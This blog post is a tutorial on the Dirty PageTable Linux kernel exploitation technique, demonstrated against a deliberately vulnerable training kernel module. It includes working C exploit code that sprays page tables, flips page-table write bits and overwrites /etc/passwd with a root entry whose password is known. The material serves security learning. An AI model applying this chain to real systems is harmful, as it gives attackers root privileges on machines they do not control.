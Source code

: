 ```yaml
---
title: Linux Kernel Exploitation - Dirty PageTable
date: 2025-04-28
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain Dirty PageTable, a universal and data-only exploitation technique that allows us to gain arbitrary read and write access to the entire physical memory. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-pagetable) beforehand.

## Analysis
The vulnerable LKM provides four commands: `CMD_ALLOC`, `CMD_READ`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, read from, write to, and free objects defined as follows:
```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` and `obj_free` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}

static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. Since we already have read and write primitives, It is not difficult to control RIP and escalate privileges by performing cross-cache attack, as explained in the [previous post](https://r1ru.github.io/posts/1). However, in this post, we take a data-only approach using Dirty Pagetable. Data-only attacks are increasingly important in the current era (due to CONFIG_CFI_CLANG) and are widely used in real-world kernel exploits.

## Dirty PageTable
As explained in the [previous post](https://r1ru.github.io/posts/1), by using cross-cache attack, we can overlap victim objects with arbitrary kernel objects. In Dirty PageTable, we overlap victim objects with page tables. Since we already have read and write primitives, we can modify page tables as we like, resulting in arbitrary read and write access to the entire physical memory.

## Exploitation
The initial steps are the same as in the [previous post](https://r1ru.github.io/posts/1/#exploitation). The difference is in the fourth step, where we allocate a large number of page tables:
```c
int file_fd = open("/etc/passwd", O_RDONLY);
assert(file_fd != -1);

puts("[*] Spraying user pagetables to reclaim order-0 pages");
for (int i = 0; i < NUM_PAGE_TABLE_SPRAY ; i++) {
    if (mmap((void *)(0xdead0000000UL + 0x200000 * i), PAGE_SIZE, PROT_READ, MAP_SHARED | MAP_FIXED_NOREPLACE, file_fd, 0) == MAP_FAILED) {
        printf("[-] Failed to mmap %#lx\n", 0xdead0000000UL + 0x200000 * i);
        exit(1);
    }
    *(volatile char*)(0xdead0000000UL + 0x200000 * i);
}
```
Here, we map /etc/passwd to user space. Note that we use `MAP_FIXED_NOREPLACE` flag and read from the page to ensure the page mapping is new and actually mapped.

Next, we locate the victim object and modify the PTE:
```c
unsigned long pte;
int victim = -1;
for (int i = 0; i < num_sprary; i += objs_per_slab * 2) {
    obj_read(i, (char *)&pte, 8);
    if (pte != 0) {
        victim = i;
        printf("[+] Found victim = %d, pte = %#lx\n", victim, pte);
        pte |= 0x2;
        printf("[*] Overwritting PTE with %#lx\n", pte);
        obj_write(victim, (char *)&pte, 8);
        break;
    }
}
if (victim == -1) {
    puts("[-] Failed to locate the victim object");
    exit(0);
}
```
Here, we enable the R/W flag. After this, we can modify /etc/passwd, even though the page was initially mapped as read-only. See the [osdev article](https://wiki.osdev.org/Paging) for more details about paging.

Finally, we overwrite /etc/passwd (`j9ep0CjBGivAnD5z6l5rr0` is MD5-encoded password with salt `deadbeef`):
```c
system("echo -e 'root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh' > /tmp/evil");
int evil_fd = open("/tmp/evil", O_RDONLY);
assert(evil_fd != -1);
struct stat evil_stat;
assert(fstat(evil_fd, &evil_stat) != -1);

for (int i = 0; i < NUM_PAGE_TABLE_SPRAY ; i++) {
    if (pread(evil_fd, (char *)(0xdead0000000UL + 0x200000 * i), evil_stat.st_size, 0) != -1) {
        puts("[+] Success");
        puts("[+] You can now log in as root with the password: cafebabe");
        exit(0);
    }
}
```
Note that we use `pread` to ignore `SIGSEGV`. If we directly write to memory and the corresponding PTE is not valid, the program will exit.

By running this exploit, we can log in as a root user and see the flag:
![win](/assets/img/posts/2025-04-28-2/win.png)

## References
> The original article, *Nicolas Wu. Dirty Pagetable: A Novel Exploitation Technique To Rule Linux Kernel. https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html* seems to be broken now.
{: .prompt-info }
1. Jann Horn. 2021. How a simple Linux kernel memory corruption bug can lead to complete system compromise. https://googleprojectzero.blogspot.com/2021/10/how-simple-linux-kernel-memory.html